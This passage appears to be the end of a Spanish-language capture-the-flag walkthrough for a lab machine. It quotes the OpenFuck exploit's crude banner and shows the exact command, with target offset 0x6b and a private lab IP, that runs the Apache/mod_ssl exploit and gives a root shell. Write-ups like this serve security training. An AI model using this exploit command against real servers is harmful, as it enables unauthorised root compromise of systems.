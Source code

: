 ```bash

Fuck to all guys who like use lamah ddos. Read SRC to have no surprise
```

Como podemos ver hay diferentes versiones de apache para diferentes versiones de Gnu/linux tras unos intentos comprobamos que la opción correcta es 0x6b 

```bash
./openfuck 0x6b 192.168.66.158 -c 45
```

![Untitled](Untitled%207.png)

Obtenemos una Shell con permisos root por lo que no es necesario escalar privilegios.

Con esto terminamos la maquina.

Un saludo y Feliz Hacking.


